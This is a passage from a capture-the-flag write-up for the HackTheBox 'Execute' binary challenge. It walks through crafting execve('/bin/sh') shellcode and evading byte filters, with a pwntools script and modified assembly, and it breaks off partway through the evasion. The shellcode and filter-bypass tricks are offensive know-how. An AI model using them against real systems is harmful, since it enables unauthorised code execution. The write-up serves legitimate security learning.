 # Execute
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a76f9eac-e18c-4903-866d-87de83421845)


## Lessons Learned:
1. Stack-Based Exploitation.
2. Input bug which leads to direct code execution.
3. Implement ret2shellcode attack.
4. Craft custom shellcode to bypass bad bytes.

## DESCRIPTION:

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f25e6b28-c6a8-437f-9eeb-a910233a9085)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2419960c-7a0c-408f-b15a-22e30567fc39)


2. Interesting! NX is disabled here. Hence it should be easier for us to gain RCE.
3. Upon reviewing the source code, our objective is very straightforward.
4. There is no buffer overflow, we just need to send our shellcode and it shall executed onto the stack.
5. BUT, the problem is there are several filters to our shellcode, which require us to craft our own shellcode.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/30e29a82-0d47-489d-82ab-a37bc286363b)

6. The easiest way to check which bytes is filtered, simply craft basic shellcode then compare which byte match the pattern.

> SCRIPT

```py
from pwn import *

exe = './execute'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = process(exe)

blacklist = b"\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67"
        
shellcode = '''    
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall
'''

sc = asm(shellcode)
for byte in sc:
    if byte in blacklist:
        print(f'BAD BYTE --> 0x{byte:02x}')
        print(f'ASCII --> {chr(byte)}')

sh.interactive()
```

#### NOTES:

```
0x68732f6e69622f is a hex representation of strings "/bin/sh".

>>> from pwn import *
>>> print(p64(0x68732f6e69622f))
b'/bin/sh\x00'
>>> 
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fed4fc6d-add2-4362-877b-0674e64ed767)


7. Got several bad bytes and it seems filtered for `/bin/sh` strings, NULL byte, and 59 or execve call.
8. Let's start by manipulate the 59 value. Actually we can just use 0x3a rather than 0x3b then add 1 byte to al (8 bit).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/052f7d17-5df6-40d8-bc3e-2dee49ba34c8)


> UPDATED SHELLCODE

```asm
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
push 0x3a
pop rax
add al, 0x1
syscall
```

#### NOTES:

```asm
To obtain the correct asm instructions is using trial and error. If you pass:

mov rax, 0x3a
add al, 0x1

It shall bypassed the 59 filter, but introduced another bad bytes.
```


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/abd28ea7-6743-4bba-bfeb-af7a6a769908)


9. Great! Now let's try to bypass the NULL byte first.
10. Using the same method as previous to get rid of another bad byte introduced. I used `push` instruction to push the value first onto the stack pointer.
